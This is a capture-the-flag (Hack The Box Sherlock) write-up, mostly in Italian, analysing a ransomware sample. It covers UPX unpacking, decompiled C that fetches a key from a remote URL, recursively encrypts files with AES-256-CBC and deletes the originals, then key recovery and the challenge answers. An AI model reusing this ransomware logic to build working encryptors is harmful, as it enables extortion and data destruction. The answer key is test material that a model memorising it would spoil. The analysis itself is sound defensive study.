# **LockPick2.0**

### **Sherlock Scenario**

We've been hit by Ransomware again, but this time the threat actor seems to have upped their skillset. Once again a they've managed to encrypt a large set of our files. It is our policy NOT to negotiate with criminals. Please recover the files they have encrypted - we have no other option! Unfortunately our CEO is on a no-tech retreat and so can't be reached.

#### **Warning**

This is a warning that this Sherlock includes software that is going to interact with your computer and files. This software has been intentionally included for educational purposes and is NOT intended to be executed or used otherwise. Always handle such files in isolated, controlled, and secure environments.

Once the Sherlock zip has been unzipped, you will find a DANGER.txt file. Please read this to proceed.





```bash
$ file malware/update
```
```
ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), statically linked, no section header
```



Il file eseguibile è packed con UPX.



Si ottiene l'eseguibile unpacked:
```bash
$ file malware/update
```
```
malware/update: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6ad54a84d534384669012fd611094afe33875556, for GNU/Linux 3.2.0, not stripped
```



Si decompila il file **update** per comprendere il funzionamento:
```c
/* Symbols */
int get_key_from_url(void *KEY,undefined8 *IV);
void xor_cipher(char *K,long buf,char *KEY);
void handle_directory(char *DIRNAME,uchar *KEY,uchar *IV);
void download_lyrics(undefined8 URL,char *coutdown);
void encrypt_file(char *FILE,uchar *KEY,uchar *IV);
void xor_cipher(char *K,long buf,char *KEY);

/* Redundant code */
int decrypt_and_print(uint8 ENC_K, char* buf_64) {
    int i;
    xor_cipher(ENC_K4,(long)buf_64,REF_b7894532snsmajuys6);
    printf("Updating %s",buf_64);
    fflush(stdout);
    for (i = 0; i < 10; i = i + 1) {
        putchar(L'.');
        fflush(stdout);
        sleep(1);
    }
    puts(" Successful");
    return 0;
}

int main(void) {
    int iVar1;
    char buf_64 [64];
    uchar IV [256];
    uchar KEY [264];

    OPENSSL_init_crypto(2,0);
    OPENSSL_init_crypto(0xc,0);

    /* Fetch AES key and iv for XOR-encrypted URL */
    iVar1 = get_key_from_url(KEY,(undefined8 *)IV);

    if (iVar1 == 0) {
        putchar("\n");
        /* Encrypt the content of /share/ directory */
        handle_directory("/share/",KEY,IV);
    }
    else {
        fwrite("Update failed.\n",1,15,stderr);
    }

    /* XOR-decryption some stuffs, not important. */
    puts("Running update, testing update endpoints");
    decrypt_and_print(ENC_K1, buf_64);
    decrypt_and_print(ENC_K2, buf_64);
    decrypt_and_print(ENC_K3, buf_64);
    decrypt_and_print(ENC_K4, buf_64);
    puts("Update complete - thank you for your patience.");
    return 0;
}


int get_key_from_url(void *KEY,undefined8 *IV) {
    char *CURL_ERROR;
    undefined url [64];
    undefined DATA [32];
    undefined8 val;
    undefined8 val2;
    int CURL_TRANSFER_CODE;
    undefined4 local_20;
    undefined4 local_1c;
    undefined4 local_18;
    undefined4 local_14;
    long handle;

        /* CURL_GLOBAL_NOTHING  */
    curl_global_init(3);
    handle = curl_easy_init();
    if (handle != 0) {

        /* ENC_K0 
            { 0x0a, 0x43, 0x4c, 0x49, 0x47, 0x0f, 0x1c, 0x1d, 0x01, 0x0c, 
            0x5d, 0x0a, 0x18, 0x45, 0x46, 0x1f, 0x1f, 0x45, 0x1b } 
        */
        xor_cipher(ENC_K0, (long)url, REF_b7894532snsmajuys6);

        /* CURLcode curl_easy_setopt(CURL *handle, CURLoption option, parameter); */
        curl_easy_setopt(handle,10002,url); 
            /* CURLOPT_URL */

        curl_easy_setopt(handle,20011,write_binary_data);
            /* CURLOPT_WRITEFUCTION, callback for writing received data */
                    
        curl_easy_setopt(handle,10001,DATA);
            /* CURLOPT_WRITEDATA, pointer passed to the write callback */

        curl_easy_setopt(handle,52,1);
            /* CURLOPT_FOLLOWLOCATION */
            
        CURL_TRANSFER_CODE = curl_easy_perform(handle);

        if (CURL_TRANSFER_CODE != 0) {
            CURL_ERROR = (char *)curl_easy_strerror(CURL_TRANSFER_CODE);
            fprintf(stderr,"curl_easy_perform() failed: %s\n",CURL_ERROR);
            curl_easy_cleanup(handle);
            curl_global_cleanup();
            return -1;
        }
        curl_easy_cleanup(handle);
    }
    curl_global_cleanup();
    memcpy(KEY,DATA,32);    /* ENCRYPTION KEY */
    *IV = val;              /* IV */
    IV[1] = val2;
    return 0;
}

void xor_cipher(char *ENC_K,long ret,char *KEY) {
    size_t KEY_len;
    size_t ENC_K_len;
    ulong i;

    KEY_len = strlen(KEY);
    i = 0;
    while( true ) {
        ENC_K_len = strlen(ENC_K);
        /* If i is not greater than ENC_K length calculate K[i] XOR KEY[i % KEY length] */
        if (ENC_K_len <= i) break;
        *(char *)(i + ret) = K[i] ^ KEY[i % KEY_len];
        i = i + 1;
    }
    *(undefined *)(i + ret) = 0;
    return;
}

void handle_directory(char *DIRNAME,uchar *KEY,uchar *IV) {
    int res;
    char FILE [4096];
    char PATH_TO_COUNTDOWN [4096];
    stat stat_FILE;
    dirent *file;
    DIR *dir;

    dir = opendir(DIRNAME);
    if (dir != (DIR *)0x0) {
        snprintf(PATH_TO_COUNTDOWN,4096,"%s/countdown.txt",DIRNAME);
        download_lyrics("https://pastes.io/raw/foiawsmlsk",PATH_TO_COUNTDOWN);
        while (file = readdir(dir), file != (dirent *)0x0) {
            snprintf(FILE,4096,"%s/%s",DIRNAME,file->d_name);
            res = stat(FILE,&stat_FILE);
            
            /* Is it a directory? */
            if ((res == 0) && ((stat_FILE.st_mode & 0170000) == 040000)) {
                    
                /* Is it the current directory OR the parent directory? */
                res = strcmp(file->d_name,".");
                if ((res != 0) && (res = strcmp(file->d_name,".."), res != 0)) {
                    handle_directory(FILE,KEY,IV);
                }
            }
            else {
                /* It is not a directory. It is encrypted if it has a valid extension. */
                res = is_target_extension(file->d_name);
                if (res != 0) {
                    encrypt_file(FILE,KEY,IV);
                }
            }
        }
        closedir(dir);
    }
    return;
}

void download_lyrics(undefined8 URL,char *coutdown) {
    int DATA;
    long handle;
    FILE *fd;
    char *err;

    curl_global_init(3);
    handle = curl_easy_init();
    if (handle != 0) {
        /* CURLOPT_URL CURLOPT_WRITEFUNCTION */
        curl_easy_setopt(handle,10002,URL);
        curl_easy_setopt(handle,20011,write_data);
        fd = fopen(coutdown,"w");

        if (fd == (FILE *)0x0) {
            fprintf(stderr,"Could not open output file: %s\n",coutdown);
        }
        else {
            /* CURLOPT_WRITEDATA */
            curl_easy_setopt(handle,10001,fd);
            DATA = curl_easy_perform(handle);
            if (DATA != 0) {
                err = (char *)curl_easy_strerror(DATA);
                fprintf(stderr,"curl_easy_perform() failed: %s\n",err);
            }
            fclose(fd);
        }
        
        curl_easy_cleanup(handle);
    }
    curl_global_cleanup();
    return;
}

void encrypt_file(char *FILE,uchar *KEY,uchar *IV) {
    int res;
    EVP_CIPHER *cipher;
    int n;
    int buf_enc;
    uchar ENCRYPTED_DATA [288];
    undefined buf_in [256];
    char file_buf [4100];
    EVP_CIPHER_CTX *context;
    FILE *fd_enc;
    FILE *fd;

    fd = fopen(FILE,"rb");
    if (fd == (FILE *)0x0) {
        fprintf(stderr,"Could not open input file: %s\n",FILE);
    }
    else {
        snprintf(file_buf,4096,"%s.24bes",FILE);
        fd_enc = fopen(file_buf,"wb");
        if (fd_enc == (FILE *)0x0) {
            fprintf(stderr,"Could not open output file: %s\n",file_buf);
            fclose(fd);
        }
        else {
            context = EVP_CIPHER_CTX_new();
            cipher = EVP_aes_256_cbc();
                /* int EVP_EncryptInit_ex(EVP_CIPHER_CTX *ctx, const EVP_CIPHER *type,
                    ENGINE *impl, const unsigned char *key, const unsigned char *iv); */
            EVP_EncryptInit_ex(context,cipher,(ENGINE *)0x0,KEY,IV);
            
            while( true ) {
                n = fread(buf_in,1,256,fd);
                if (n < 1) break;
                buf_enc = encrypt((char *)context,(int)buf_in);
                fwrite(ENCRYPTED_DATA,1,(long)buf_enc,fd_enc);
            }
            res = EVP_EncryptFinal_ex(context,ENCRYPTED_DATA,&buf_enc);

            if (res != 1) {
                handleErrors();
            }
                /* Write the encrypted data to FILE.24bes and finally delete the original FILE */
            fwrite(ENCRYPTED_DATA,1,(long)buf_enc,fd_enc);
            EVP_CIPHER_CTX_free(context);
            fclose(fd_enc);
            fclose(fd);
            res = remove(FILE);
            if (res != 0) {
                fprintf(stderr,"Failed to delete the original file: %s\n",FILE);
            }
        }
    }
    return;
}
```

Si ottiene la chiave seguendo l'URL ottenuto dallo XOR di ENC_K0 con b7894532snsmajuys6:





Il contenuto di **updater**.



Il file contiene **48 bytes**. 

Il ransomware per cifrare i file utilizza AES-256-CBC, quindi:

- AES KEY: 32 bytes del file updater.

```bash
$ xxd -l 32 -p updater 
f3fc056da1185eae370d76d47c4cf9db9f4efd1c1585cde3a7bcc6cb5889f6db
```

- AES IV: 16 bytes del file updater.

```bash
$ xxd -s 32 -p updater 
01448c7909939e13ce359710b9f0dc2e
```

Si analizza il contenuto di **share/**:



- BTC Address: 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2
- Onion Address: xyzf3jv6xq3d7w5e.onion

Si tenta di decifrare i file con le informazioni raccolte:





Si ottengono:
- expanding-horizons.pdf
- takeover.docx

### 1. What type of encryption has been utilised to encrypt the files provided?
```
AES
```

### 2. Which market is our CEO planning on expanding into? (Please answer with the wording utilised in the PDF)

`decrypted/expanding-horizons.pdf`


```
Australian Market
```

### 3. Please confirm the name of the bank our CEO would like to takeover?


```
Notionwide Bank 
```

### 4. What is the file name of the key utlised by the attacker?

```
updater
```

### 5. What is the file hash of the key utilised by the attacker?

```bash
$ md5sum /tmp/LockPick2.0/updater 
950efb05238d9893366a816e6609500f  /tmp/LockPick2.0/updater
```

```
950efb05238d9893366a816e6609500f
```

### 6. What is the BTC wallet address the TA is asking for payment to?

```
1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2
```

### 7. How much is the TA asking for?

```
£1000000
```

### 8. What was used to pack the malware?

```
upx
```

---
